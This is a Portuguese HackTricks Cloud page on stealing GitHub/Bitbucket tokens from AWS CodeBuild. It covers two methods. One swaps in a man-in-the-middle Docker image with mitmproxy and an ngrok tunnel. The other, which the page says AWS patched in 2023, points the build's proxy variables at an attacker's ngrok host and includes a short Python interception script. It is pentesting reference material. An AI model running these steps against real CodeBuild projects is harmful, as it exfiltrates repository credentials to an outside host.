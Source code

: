 # AWS Codebuild - Vazamento de Token

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Recuperar Tokens Configurados do Github/Bitbucket

### Via Imagem Docker

Se você descobrir que a autenticação, por exemplo, para o Github está configurada na conta, você pode **exfiltrar** esse **acesso** (**token GH ou token OAuth**) fazendo com que o Codebuild **use uma imagem Docker específica** para executar a compilação do projeto.

Para esse propósito, você pode **criar um novo projeto Codebuild** ou alterar o **ambiente** de um existente para definir a **imagem Docker**.

A imagem Docker que você pode usar é [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta é uma imagem Docker muito básica que definirá as variáveis de ambiente `https_proxy`, `http_proxy` e `SSL_CERT_FILE`. Isso permitirá que você intercepte a maior parte do tráfego do host indicado em `https_proxy` e `http_proxy` e confie no CERT SSL indicado em `SSL_CERT_FILE`.

1. **Crie e faça upload de sua própria imagem Docker MitM**
   * Siga as instruções do repositório para definir o endereço IP do seu proxy e definir seu certificado SSL e **criar a imagem Docker**.
     * **NÃO DEFINA `http_proxy`** para não interceptar solicitações ao endpoint de metadados.
   * Você pode usar o **`ngrok`** como `ngrok tcp 4444` para definir o proxy para sua máquina.
   * Depois de criar a imagem Docker, **faça o upload dela para um repositório público** (Dockerhub, ECR...)
2. **Defina o ambiente**
   * Crie um **novo projeto Codebuild** ou **modifique** o ambiente de um existente.
   * Defina o projeto para usar a **imagem Docker gerada anteriormente**
   *

       <figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>
3. **Defina o proxy MitM em sua máquina**
   * Como indicado no **repositório do Github**, você pode usar algo como: `mitmproxy --listen-port 4444 --set block_global=false --allow-hosts "github.com"`
4. **Execute a compilação e capture as credenciais**
   * Você pode ver o token no cabeçalho Authorization:

       <figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

### Via protocolo HTTP

{% hint style="success" %}
**Essa vulnerabilidade foi corrigida pela AWS em algum momento na semana de 20 de fevereiro de 2023 (acho que na sexta-feira). Portanto, um invasor não pode mais abusar dela :)**
{% endhint %}

Um invasor com **permissões elevadas em um CodeBuild poderia vazar o token Github/Bitbucket** configurado ou, se as permissões fossem configuradas via OAuth, o **token OAuth temporário usado para acessar o código**.

* Um invasor poderia adicionar as variáveis de ambiente **http\_proxy** e **https\_proxy** ao projeto CodeBuild apontando para sua máquina (por exemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Em seguida, altere a URL do repositório do github para usar HTTP em vez de HTTPS, por exemplo: **http://**github.com/carlospolop-forks/TestActions
* Em seguida, execute o exemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porta apontada pelas variáveis de proxy (http\_proxy e https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Finalmente, clique em **Build the project**, as **credenciais** serão **enviadas em texto claro** (base64) para a porta mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Agora um invasor poderá usar o token de sua máquina, listar todos os privilégios que ele tem e (ab)usar mais facilmente do que usando o serviço CodeBuild diretamente.
{% endhint %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>